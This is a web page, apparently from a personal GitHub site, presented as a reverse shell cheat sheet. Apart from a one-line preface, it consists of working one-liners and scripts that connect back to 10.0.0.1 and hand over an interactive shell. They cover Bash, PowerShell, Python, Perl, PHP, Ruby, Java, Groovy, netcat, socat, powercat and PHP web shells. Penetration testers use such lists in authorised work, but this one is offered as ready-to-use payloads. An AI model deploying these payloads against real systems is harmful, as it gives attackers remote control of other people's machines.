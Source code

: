 _[<-- Home](https://flast101.github.io)_

# Reverse Shell Cheat Sheet

You can find them all artound the internet. I couldn't find them all in one place, so I write them down here. Don't hesitate to tell me if you find some more and I will add them to this list.

## One-liners

**Bash**

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```


**PowerShell** 

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -Name System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**Python**

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


**Perl**

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


**PHP**

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


**Ruby**

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


**Java**

```java
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();
```


**Telnet**

```
telnet localhost 443 | /bin/sh | telnet localhost 444
```


**Xterm**

```
xterm -display 10.0.0.1:1
```

* * * 


## PHP Web Pages

**Linux**
~~~
<?php echo shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/1234 0>&1'")?>
~~~

**Windows**

```
<?php echo shell_exec("powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -Name System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"")?>
```

* * *

## Tools

**Netcat**

```
nc -e /bin/sh 10.0.0.1 1234
```

**Netcat without -e #1**

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f
```

**Netcat without -e #2**

```
nc localhost 443 | /bin/sh | nc localhost 444
```
 
**Socat**

```
user@ubuntu:~$ socat - TCP4:10.0.0.1:4444 EXEC:'/bin/bash -li'
C:\> socat TCP4:10.0.0.1:1234 EXEC:'cmd.exe'
```


**Powercat**

```
powercat -c 10.0.0.1 -p 1234 -e cmd.exe
```

* * *
## Others

**Powershell**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```


**Python for Linux**

```python
#!/usr/bin/env python
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",666))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

**Python for Windows**

```python
import os,socket,subprocess,threading;
def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",666))

p=subprocess.Popen(["\\windows\\system32\\cmd.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```

**Groovy**

```groovy
String host="10.0.0.1";
int port=1234;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

**PHP**

The very good Pentestmonkey [php reverse shell](https://github.com/flast101/reverse-shell-cheatsheet/blob/master/php-reverse-shell.php).




_[<-- Home](https://flast101.github.io)_

<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-173692234-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-173692234-1');
</script>



